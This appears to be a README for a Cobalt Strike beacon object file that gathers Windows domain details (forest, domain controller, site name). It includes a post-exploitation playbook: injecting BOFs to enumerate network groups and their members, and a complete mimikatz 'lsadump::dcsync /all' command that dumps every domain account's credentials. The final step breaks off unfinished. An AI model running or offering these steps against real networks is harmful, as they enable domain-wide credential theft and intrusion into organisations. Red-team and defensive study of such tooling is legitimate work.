 # CobaltStrike BOF :
This is a BOF to return Domain Forest Name, Domain Name, Domain Controller, address, sitename 


BOF files included:

get_domain_info.c: This will return Domain Forest Name, Domain Name, Domain Controller+address+sitename 


Instructions for completing flowchart 

Step 1) We need the domain of windows computer.
    Inject get_domain_info.o without arguments

Step 2) Attempt to retrieve domain controller credentials using mimikatz
    mimikatz lsadump::dcsync /domain:<DOMAIN NAME> /all /csv

Step 3) Get a list of all network groups
    Inject get_net_groups.o with the following arguments ("<DOMAIN>")

Step 4) List members of each network groups
    Inject get_net_group_members.o with the following arguments ("<DOMAIN>", "<GROUP>")

Step 5) List everyone logged into the domain
